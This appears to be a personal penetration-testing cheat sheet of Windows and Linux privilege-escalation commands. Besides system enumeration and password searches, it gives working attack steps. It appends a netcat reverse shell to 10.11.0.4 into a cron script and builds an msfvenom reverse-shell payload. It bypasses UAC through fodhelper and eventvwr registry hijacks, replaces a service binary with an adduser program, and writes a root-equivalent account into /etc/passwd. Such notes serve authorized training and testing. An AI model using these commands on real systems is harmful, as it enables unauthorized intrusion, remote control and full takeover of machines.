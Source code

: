 ### Windows
```
whoami
net user student
net user
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
findstr /si password *.xml *.ini *.txt 
tasklist /SVC
ipconfig /all
route -print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic service get name,startname
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell -> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\Software\Policies\Microsoft\Windows\Installer

windows-privesc-check2.exe --dump -G

```
https://www.fuzzysecurity.com/tutorials/16.html



### Linux
```
whoami
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
uname -r
arch
ps aux
ip a
/sbin/route
ss -anp
iptables
iptables-save
iptables-restore
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
dpkg -l
mount
cat /etc/fstab
/bin/lsblk
lsmod
/sbin/modinfo libata
find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

./unix-privesc-check standard > output.txt

echo >> user_backups.sh 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

```



```
whoami /priv
whoami /groups - check privilege level for uac

net user admin Ev!lpass
powershell.exe Start-Process cmd.exe -Verb runAs - will require accepting UAC prompt



```


```
cd C:\Tools\privilege_escalation\SysinternalsSuite 
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

```
run fodhelper.exe
in process monitor - search fodhelper.exe
reg -> name not found -> HKCU 

HKCU:\Software\Classes\ms-settings\shell\open\command
HKCR:ms-settings\shell\open\command


REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f


UAC Bypass

```
whoami /priv

whoami /groups


C:\users\alice\desktop\sigcheck64.exe -accepteula -a -m .\eventvwr.exe

Did this to get high integrity shell and bypass

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.119.175 LPORT=443 -f exe > shell_443.exe

reg add HKCU\Software\Classes\mscfile\shell\open\command /d C:\users\alice\desktop\shell_443.exe /f

C:\Windows\system32\eventvwr.exe
```


Listing running services on Windows using PowerShell

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

i686-w64-mingw32-gcc adduser.c -o adduser.exe

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

dir "C:\Program Files\Serviio\bin\"

wmic service where caption="Serviio" get name, caption, state, startmode

whoami /priv

shutdown /r /t 0

net localgroup administrators

```

### USBPcap

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

driverquery /v

C:\Program Files\USBPcap> type USBPcap.inf

mingw-w64.bat

gcc

gcc --help

```

# Updating /etc/passwd file

```
openssl passwd evil 

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd 

su root2
```




